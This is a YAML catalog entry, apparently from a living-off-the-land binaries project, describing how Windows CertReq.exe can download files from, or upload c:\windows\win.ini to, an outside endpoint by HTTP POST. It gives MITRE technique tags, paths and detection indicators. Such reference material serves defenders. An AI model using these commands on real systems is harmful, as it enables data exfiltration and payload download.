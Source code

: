 ```yaml
---
Name: CertReq.exe
Description: Used for requesting and managing certificates
Author: "David Middlehurst"
Created: "2020-07-07"
Commands:
  - Command: CertReq -Post -config https://example.org/ c:\windows\win.ini output.txt
    Description: Save the response from a HTTP POST to the endpoint https://example.org/ as output.txt in the current directory
    Usecase: Download file from Internet
    Category: Download
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: CertReq -Post -config https://example.org/ c:\windows\win.ini and show response in terminal
    Description: Send the file c:\windows\win.ini to the endpoint https://example.org/ via HTTP POST
    Usecase: Upload
    Category: Upload
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\System32\certreq.exe
  - Path: C:\Windows\SysWOW64\certreq.exe
Code_Sample:
  - Code:
Detection:
  - IOC: certreq creates new files
  - IOC: certreq makes POST requests
Resources:
  - Link: https://dtm.uk/certreq
Acknowledgement:
  - Person: David Middlehurst
    Handle: "@dtmsecurity"
---
```

